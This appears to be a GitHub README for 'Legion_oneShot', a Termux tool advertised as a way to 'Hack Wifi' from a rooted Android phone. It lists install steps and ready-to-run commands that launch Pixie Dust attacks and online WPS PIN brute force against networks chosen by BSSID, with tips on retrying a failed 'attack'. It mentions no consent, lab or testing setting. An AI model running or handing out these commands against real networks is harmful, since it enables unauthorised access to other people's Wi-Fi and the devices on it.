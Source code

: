 
<h1 align="center">𝓛𝓮𝓰𝓲𝓸𝓷</h1>
<h4 align="center">Hack Wifi Using Termux! (Requires Rooted Device)</h4>

### Installation :

```bash
• pkg install
• pkg update
• pkg install python
• pkg install python2
• pkg install root-repo -y
• pkg install git tsu python wpa-supplicant pixiewps iw -y
• git clone  
• cd legion_oneShot 
• pip3 install -r requirements.txt
• chmod +x legion_oneShot.py
• sudo python legion_oneShot.py -i wlan0 -K

* For Run This Tools *
• cd legion_oneShot
• sudo python legion_oneShot.py -i wlan0 -K
```

**IF FAILED PLEASE TURN OFF YOUR LOCATION & WIFI THEN TRY TO ATTACK.**

#### Help : `sudo python legion_oneShot.py --help`
#### Example : `sudo python legion_oneShot.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn Off your Location.**
+ **Some devices this tool not work Ex: (MTK Devices) Please use (Custom Kernel) then solve your problem.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python legion_oneShot.py -i wlan0 -K`
-  Start Pixie Dust attack on a specified BSSID:
`sudo python legion_oneShot.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python legion_oneShot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
License Agreement for Legion_oneShot wifi wps pin hack Software
© 2025 𝓛𝓮𝓰𝓲𝓸𝓷

This software and its documentation ("the Software") are freely available to anyone who obtains a copy. You're granted broad permission to use the Software without any limitations. This includes the right to:

Use the Software
Copy it
Modify it
Combine it with other software
Publish it
Distribute it
Sublicense it (allow others to use parts of it)
Sell copies of it
You can also give the Software to others under these same terms.

The only conditions are that you must include the original copyright notice and this permission notice in all copies or significant parts of the Software.

Please note: The Software is provided "as is," meaning without any warranties of any kind. We don't guarantee that it's suitable for a particular purpose, or that it won't infringe on anyone else's rights. In no event will the authors or copyright holders be responsible for any claims, damages, or other liabilities that might arise from using or dealing with the Software. This applies whether the claim is based on a contract, a tort (a civil wrong), or any other legal theory.

````

+ **IF FAILED TURN OFF YOUR LOCATION & WIFI THEN TRY TO ATTACK.**

Repo : <a href=""> Click Here </a>

##### Modify History : => 𝓛𝓮𝓰𝓲𝓸𝓷
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://www.facebook.com/riyadu.Islam.420" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="legion" height="30" width="40" /></a>
</div>
